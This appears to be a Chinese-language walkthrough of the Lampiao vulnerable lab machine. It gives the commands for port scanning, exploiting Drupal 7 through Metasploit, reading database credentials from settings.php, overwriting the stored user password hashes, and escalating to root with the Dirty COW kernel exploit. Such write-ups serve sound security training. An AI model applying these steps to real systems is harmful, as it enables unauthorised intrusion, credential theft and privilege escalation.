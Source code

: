 ```yaml
---
layout: post
title: Lampiao
subtitle: Lampiao
date: 2025-07-11 17:52
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

### 信息搜集

IP扫描，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/uOvsti.png)

端口扫描，发现三个端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/UiAH2o.png)

### 渗透测试

访问80端口，未发现有效信息，目录扫描未发现其他目录

访问1898端口，发现网站，扫描目录，发现robots.txt

查看文章，发现url格式 `http://192.168.163.131:1898/?q=node/2`，更改数字发现3个页面，发现两个音频文件和一个图片

`whatweb` 扫描网站框架，`Drupal 7`

![image.png](https://img.ghostliner.top/4irltv.png)
#### 反弹shell

`msfconsole` 搜索相关漏洞

![image.png](https://img.ghostliner.top/aR9Xas.png)

使用编号为1的漏洞

```shell
use 1
options
set rhosts 192.168.163.131
set rport 1898
run
```

连接成功后，进入shell

```shell
shell
python -c "import pty;pty.spawn('/bin/bash')"
```

搜索Drupal站点的配置文件

```shell
# 搜索配置文件
find . -name "setting*" -type f
# 搜索密码加密脚本
find . -name "pass*" -type f
```

搜索到 `./sites/default/settings.php`   `./scripts/password-hash.sh`

查看settings.php，发现数据库配置
```
'database' => 'drupal', 
'username' => 'drupaluser', 
'password' => 'Virgulino', 
```

使用 `./scripts/password-hash.sh 123` 生成密码，用于更改用户密码
```
123:$S$DFn4g4WKRfqgHk28yFUea5g5jNoWb/iHXIPDz6BtI2dqdrw.UOmz
```

#### 连接数据库

```shell
mysql -u drupaluser -pVirgulino
```

```mysql
use drupal;
show tables;
select * from users\G;
# tiago $S$DNZ5o1k/NY7SUgtJvjPqNl40kHKwn4yXy2eroEnOAlpmT0TJ9Sx8
# Eder $S$Dv5orvhi7okjmViImnVPmVgfwJ2U..PNK4E9IT/k7Lqz9GZRb7tY
update users set pass='$S$DFn4g4WKRfqgHk28yFUea5g5jNoWb/iHXIPDz6BtI2dqdrw.UOmz' where uid=1 or uid=2;
```

登录网站。

使用数据库密码尝试登录用户：`tiago`

`ls -R /home` tiago用户目录下无东西，尝试提权

```shell
sudo -l
# Sorry, user tiago may not run sudo on lampiao.
find / -exec "/bin/bash" -p \; -quit
```

#### 内核提权

查看内核版本

![image.png](https://img.ghostliner.top/82QdBK.png)

搜索脏牛漏洞 [CVE-2016-5195](https://nvd.nist.gov/vuln/detail/CVE-2016-5195)

```shell
searchsploit dirty
```

![image.png](https://img.ghostliner.top/PB6RWu.png)

使用 `40847.cpp`

```shell
# 复制到到当前目录
searchsploit -m 40847.cpp
# 传输到目标机
scp 40847.cpp tiago@192.168.163.131:~
```

```shell
# 在目标机上编译
g++ -O2 -std=c++11 -pthread -o 40847 40847.cpp -lutil
# 执行
./40847
# Root password is:   dirtyCowFun
```

![image.png](https://img.ghostliner.top/theoLU.png)

root登录，获取flag文件

![image.png](https://img.ghostliner.top/RNpcqa.png)
